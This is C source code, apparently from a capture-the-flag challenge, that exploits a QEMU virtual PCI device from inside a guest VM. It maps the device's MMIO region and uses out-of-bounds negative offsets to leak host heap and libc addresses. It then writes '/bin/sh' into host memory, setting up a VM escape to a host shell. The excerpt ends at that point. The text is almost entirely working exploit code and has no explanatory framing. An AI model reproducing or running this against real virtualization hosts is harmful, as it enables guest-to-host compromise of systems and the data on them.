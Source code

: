 ```c
volatile uint32_t *mmio_base;

void set_offset(uint64_t offset) {
  mmio_base[MMIO_SET_OFFSET_LO / 4] = (uint32_t)(offset & 0xFFFFFFFF);
  mmio_base[MMIO_SET_OFFSET_HI / 4] = (uint32_t)((offset >> 32) & 0xFFFFFFFF);
}

void write_u32(uint64_t offset, uint32_t u32) {
  set_offset(offset);
  mmio_base[MMIO_SET_DATA / 4] = u32;
}

void write_u64(uint64_t offset, uint64_t u64) {
  write_u32(offset, u64 & 0xffffffff);
  write_u32(offset + 4, (u64 >> 32) & 0xffffffff);
}

void write_at_u64(uint64_t offset, uint64_t u64) { write_u64(offset * 8, u64); }
uint32_t read_u32(uint64_t offset) {
  set_offset(offset);
  uint32_t ret = mmio_base[MMIO_GET_DATA / 4];

  return ret;
}

uint64_t read_u64(uint64_t offset) {
  uint32_t lo = read_u32(offset);
  uint32_t hi = read_u32(offset + 4);

  return (((uint64_t)hi) << 32) | ((uint64_t)lo);
}

uint64_t read_at_u64(uint64_t offset) { return read_u64(offset * 8); }

int main() {
  printf("start\n");

  const char *device_path = "/sys/bus/pci/devices/0000:00:04.0/resource0";
  int fd = open(device_path, O_RDWR | O_SYNC);
  if (fd < 0) {
    perror("Failed to open PCI device resource");
    return EXIT_FAILURE;
  }

  mmio_base =
      mmap(NULL, MMIO_REGION_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
  if (mmio_base == MAP_FAILED) {
    perror("Failed to map MMIO region");
    close(fd);
    return EXIT_FAILURE;
  }

  printf("MMIO region mapped at %p\n", (void *)mmio_base);

  uint64_t heap_leak = read_at_u64(-7) + 8 * 8; // heap
  printf("[+] qemu host buffer at 0x%lx\n", heap_leak);

  uint64_t libc_leak = read_at_u64(-0x182) - 0x203b20; // libc(main_arena+96)
  printf("[+] qemu host libc at 0x%lx\n", libc_leak);

  write_at_u64(-383, 0x0068732f6e69622f); // /bin/sh
  printf("[+] wrote /bin/sh at 0x%lx\n", heap_leak);

```